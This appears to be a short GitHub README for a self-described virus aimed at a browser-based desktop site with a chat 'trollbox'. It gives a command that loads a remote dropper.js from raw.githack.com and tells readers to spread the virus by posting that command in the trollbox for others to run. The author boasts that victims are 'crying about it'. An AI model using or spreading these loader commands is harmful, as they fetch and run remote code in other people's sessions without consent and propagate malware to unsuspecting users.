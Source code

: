 # REDDIT MONTAGE
WOW    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/veryyourmom/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
YES apparently. Never seen it for myself but some people are crying about it now ._.

## Why does it sometimes take long to update
githack is not ok    
p.s. i am exfiltrate
